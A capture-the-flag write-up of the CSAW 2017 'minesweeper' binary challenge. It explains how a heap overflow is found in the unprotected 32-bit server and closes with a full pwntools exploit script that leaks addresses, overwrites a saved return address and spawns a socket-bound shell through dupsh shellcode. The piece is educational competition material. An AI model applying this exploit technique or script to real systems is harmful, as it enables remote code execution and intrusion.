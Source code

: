 [](ctf=csaw-quals-2017)
[](type=exploit)
[](tags=arbitrary-size)
[](techniques=shellcode)

# minesweeper (pwn-500)

[Binary](../minesweeper)

```bash
$ file minesweeper
minesweeper: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, stripped
```

This solution would make you think that this challenge was not worth 500. Lets solve it without reversing the binary at all. The binary is UPX packed, so we first unpack it.

```bash
$ cp minesweeper upx
$ upx -d upx        
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2013
UPX 3.91        Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 30th 2013

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     13132 <-      7936   60.43%  netbsd/elf386  upx

Unpacked 1 file.
$ file upx
upx: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=90ec16e6be18b19942bf2952db17a7c1ed3ca482, stripped
$ checksec upx
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

This makes more sense. A pwn worth 500 with no protections??? seriously??
When we run it it says server started. `netstat` tells the port to be 31337. The process wais for a connection and then forks.
I connect to the port and attach gdb to the child.

```bash
nc 127.0.0.1 31337

Hi. Welcome to Minesweeper. Please select an option:
1) N (New Game)
2) Initialize Game(I)
3) Q (Quit)
I
Please enter in the dimensions of the board you would like to set in this format: B X Y
B 10 10
```
On the binary's STDOUT it said `Allocated buffer of size: 81`.
The problem is obvious now, it should have allocated 100 bytes instead.
We can send in our input which will be copied to the buffer, so its probably an out of bounds write. Using `cyclic` from the awesome pwntools I send a payload `'XXXX'+cyclic(96)`. It crashed!
```bash
Program received signal SIGSEGV, Segmentation fault.
0x08049855 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[────────────────────────────────────REGISTERS─────────────────────────────────────]
*EAX  0x61616176 ('vaaa')
*EBX  0x0
*ECX  0x4
*EDX  0x61616177 ('waaa')
 EDI  0xf76f8000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
*ESI  0xf76f8000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
*EBP  0xffcc5908 —▸ 0xffcc5948 —▸ 0xffcc5998 —▸ 0xffcc59e8 ◂— ...
*ESP  0xffcc58f0 ◂— 0x0
*EIP  0x8049855 ◂— mov    dword ptr [eax + 8], edx
[──────────────────────────────────────DISASM──────────────────────────────────────]
 ► 0x8049855    mov    dword ptr [eax + 8], edx
   0x8049858    mov    eax, dword ptr [ebp + 8]
   0x804985b    mov    eax, dword ptr [eax + 8]
   0x804985e    mov    edx, dword ptr [ebp - 0x10]
   0x8049861    mov    dword ptr [eax + 4], edx
   0x8049864    mov    eax, dword ptr [stderr]       <0x804bdbc>
   0x8049869    push   eax
   0x804986a    push   9
   0x804986c    push   1
   0x804986e    push   0x804a87c
   0x8049873    call   fwrite@plt                    <0x80486a0>
[──────────────────────────────────────STACK───────────────────────────────────────]
00:0000│ esp  0xffcc58f0 ◂— 0x0
01:0004│      0xffcc58f4 —▸ 0xf76f8000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
02:0008│      0xffcc58f8 ◂— 0x61616176 ('vaaa')
03:000c│      0xffcc58fc ◂— 0x61616177 ('waaa')
04:0010│      0xffcc5900 ◂— 0x4
05:0014│      0xffcc5904 —▸ 0x8f90024 ◂— 0x58585858 ('XXXX')
06:0018│ ebp  0xffcc5908 —▸ 0xffcc5948 —▸ 0xffcc5998 —▸ 0xffcc59e8 ◂— ...
07:001c│      0xffcc590c —▸ 0x80499ea ◂— add    esp, 0x10
[────────────────────────────────────BACKTRACE─────────────────────────────────────]
 ► f 0  8049855
   f 1  80499ea
   f 2  8049526
   f 3  80496b0
   f 4  8049b75
   f 5  8049d96
   f 6 f755e637 __libc_start_main+247
Program received signal SIGSEGV (fault address 0x6161617e)
pwndbg>
```

`eax` holds data at offset 88 and `edx` at 92. This would give us a very clean write-what-where. However there's a catch, contnuing execution to `0x8049861` shows that another write primitive with `eax`=`edx`. This could fuck up the clean primitive we had to write as now we need the `what` and `where` regions to be writable.

The input is saved on a custom heap with rwxp. Come on! Its 2017!
```
0x8f90000  0x8f91000 rwxp     1000 0      [heap]
```
A straight leak is also available when you view the board in the game. I foud out that if you view the board without initializing the board, you leak stack and libc. When you view it with a small initialized board you can leak the heap. Now its easy!

+ Leak the stack and heap.
+ Initialize a board large enough to contain our shellcode and calculate save eip on the stack for the function which gives us the write primitive.
+ Calculate shellcode's location on heap and replace eip with it.

For shellcode I used awesome `pwntools` - `pwnlib.shellcraft.i386.linux.dupsh()`. It'll take the fd of your socket and dup() it with stdin and stdout and then give you a shell.

```python
from pwn import *

context(arch='i386', os='linux', log_level='info')

s = remote('pwn.chal.csaw.io',7478)

for _ in xrange(5):
    s.recvline()
s.sendline("N")
for _ in xrange(4):
    s.recvline()
s.sendline("V")
s.recvline()
r = s.recv(144)
print len(r)
stack = u32(r[91:95])
success(hex(stack))
s.sendline("Q")
for _ in xrange(5):
    s.recvline()
s.sendline('I')
s.recvline()
s.sendline("B 4 4")
for _ in xrange(20):
    s.recvline()
s.sendline('X'*16)
for _ in xrange(12):
    s.recvline()
s.sendline('N')
for _ in xrange(4):
    s.recvline()
s.sendline('V')
s.recvline()
r = s.recv(0x20)
heap = u32(r[15:19])
success(hex(heap))
sleep(5)
for _ in xrange(5):
    s.recvline()
for _ in xrange(5):
    s.recvline()
s.sendline("Q")
for _ in xrange(5):
    s.recvline()
s.sendline('I')
s.recvline()
s.sendline("B 20 20")
for _ in xrange(20):
    s.recvline()

payload = '\xeb\x06'+'X'*4+'\x90'*2+asm('mov ebp,0x4')+asm(pwnlib.shellcraft.i386.linux.dupsh())
payload += 'X'*(400-len(payload)-24)
payload += p32(stack-47-8)+p32(heap+12)+'X'*16

s.sendline(payload)
s.interactive()
```

Easiest 500 points I ever scored!
